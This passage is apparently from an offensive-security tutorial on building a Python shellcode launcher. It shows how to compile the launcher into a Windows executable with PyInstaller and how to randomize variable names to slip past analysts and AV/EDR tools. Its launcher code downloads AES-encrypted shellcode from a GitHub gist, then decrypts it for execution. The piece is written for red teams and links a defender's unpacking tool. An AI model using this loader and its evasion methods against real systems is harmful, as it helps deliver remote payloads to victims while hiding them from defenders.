 ## Compiling

With the script working, it's now time to compile it into an executable binary. This is accomplished using Pyinstaller.

Run Pyinstaller (prepare for a BIG binary!)

```
pyinstaller.exe --onefile .\Launcher.py
```

Test the binary.

```
cd .\dist\
.\Launcher.exe
```

You should have gotten a calc.exe if you're following along.

**Note:** Pyinstalled binaries are OS specific. You should compile the binary on the same OS version/architecture that you are targeting.

## Obfuscating the Python Code

One of the downsides of running Pyinstalled binaries on a target is that the source Python scripts aren't truly 'compiled'. Pyinstaller includes compiled .pyc files within the generated bundle, which can be extracted and analyzed to reveal the original Python code. This is a problem for Offensive teams, because it can allow even unskilled analysts to see the Launcher logic. For Defenders looking to test out analyzing Pyinstalled binaries, [check this out](https://github.com/countercept/python-exe-unpacker).

For Offensive folks looking to further defend against Defenders/AV/EDR, keep reading...

### Variable Randomization

One simple way to throw off analysts that have unpacked your source code, and possibly fool endpoint detection tools is randomizing variable names. This typically involves writing another script that reads your Launcher script (before compiling), and replacing all variable, library, and function names with random strings.

Here's an example Portion of the Launcher script without this obfuscation applied.

```
def main():
    key = b'eax94il288nyq0rv'

    page = urllib.request.urlopen("https://gist.githubusercontent.com/m1kemu/e14d7e8ddc0257d083d2f8de2905df36/raw/45a463bf5eedd75b648d9082b867f7b9f9eb7d69/download_me.txt")
    message = page.read()
    message = message.decode()

    ciphertext_b64 = message.split(':')[0]
    iv_b64 = message.split(':')[1]

    ciphertext = b64decode(ciphertext_b64)
    iv = b64decode(iv_b64)

    shellcode = aes_decrypt(ciphertext, key, iv)
```

